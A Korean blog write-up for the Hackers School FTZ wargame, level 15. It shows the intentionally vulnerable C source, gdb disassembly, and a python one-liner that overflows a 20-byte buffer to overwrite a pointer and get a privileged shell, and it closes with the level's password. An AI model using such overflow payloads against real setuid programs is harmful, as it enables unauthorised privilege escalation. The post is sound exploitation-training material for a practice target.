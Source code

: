 ```yaml
---
date: '2022-10-05'
before : '2022-10-04'
after : '2022-10-06'
title: '해커스쿨 FTZ 레벨 15'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

BOF문제인데, int *check 포인터가 0xdeadbeef를 가리킨다면 쉘 코드를 실행시켜주는 식이다. 소스코드를 보면서 시작하자.


### 1. Level 15

```
#include <stdio.h> 
main(){
     int crap;  
     int *check; 
      char buf[20];  
     fgets(buf,45,stdin);  
     if (*check==0xdeadbeef)   
        {     setreuid(3096,3096);    
              system("/bin/sh");  
              }
    }
```

대충 요런식이다. gdb를 이용해서  disassemble 해보자.
```
0x080483b8 <main+0>:    push   ebp
0x080483b9 <main+1>:    mov    ebp,esp
0x080483bb <main+3>:    sub    esp,0x38
0x080483be <main+6>:    and    esp,0xfffffff0
0x080483c1 <main+9>:    mov    eax,0x0
0x080483c6 <main+14>:   sub    esp,eax
0x080483c8 <main+16>:   sub    esp,0x4
0x080483cb <main+19>:   push   ds:0x80495d4
0x080483d1 <main+25>:   push   0x2d
0x080483d3 <main+27>:   lea    eax,[ebp-56]
0x080483d6 <main+30>:   push   eax
0x080483d7 <main+31>:   call   0x80482d8 <fgets>
0x080483dc <main+36>:   add    esp,0x10
0x080483df <main+39>:   mov    eax,DWORD PTR [ebp-16] // 16 -12 pointer
0x080483e2 <main+42>:   cmp    DWORD PTR [eax],0xdeadbeef
0x080483e8 <main+48>:   jne    0x804840f <main+87>
0x080483ea <main+50>:   sub    esp,0x8
0x080483ed <main+53>:   push   0xc18
0x080483f2 <main+58>:   push   0xc18
0x080483f7 <main+63>:   call   0x80482f8 <setreuid>
0x080483fc <main+68>:   add    esp,0x10
0x080483ff <main+71>:   sub    esp,0xc
```
ebp-56 위치에 buf 배열이 마무리되고, ebp-16지점에 


단, 우리는 deadbeef의 메모리 주소값을 알아내어야 한다. 이를 위해선 gdb에서 x/20x를 해보면 된다. 노가다를 뛰면서 일일히 값을 입력하다보면 딱 0xdeadbeef가 나오는 주소를 발견하는데,

```
0x80484b2
```
라는걸 확인할 수 있다. 그럼 단순히 저 값을 bof 공격을 통해 check 포인터에 넣어주면 된다.
```
 (python -c 'print "A"*40+"\xb2\x84\x04\x08"'; cat) | ./attackme
```
단순하다고 할 수 있는 문제였던 것 같다.

비밀번호 : about to cause mass

---
## Source

- 해커스쿨 FTZ
- Me!
